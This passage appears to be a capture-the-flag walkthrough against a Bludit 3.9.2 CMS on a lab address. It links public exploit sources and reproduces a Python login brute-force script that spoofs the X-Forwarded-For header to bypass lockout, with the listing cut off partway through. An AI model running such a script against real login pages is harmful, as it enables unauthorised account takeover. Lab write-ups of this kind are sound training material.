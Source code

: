 > So the target BLUDIT version number is 3.9.2 
> With this version number, I target the exploit code on the following

1. Authentication Bruteforce Mitigation Bypass
2. Directory Traversal

![](./IMG/14.png)

![](./IMG/15.png)

> Search exploit code from internet 

- [(ExploitDB)Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass](https://www.exploit-db.com/exploits/48746)

> According to the following article, I can do the bruteforce with user - fergus by following code 

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

> The bruteforce code from rastating.

- [Remove use of headers that can be used to bypass anti-brute force controls](https://github.com/bludit/bludit/pull/1090)

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }
```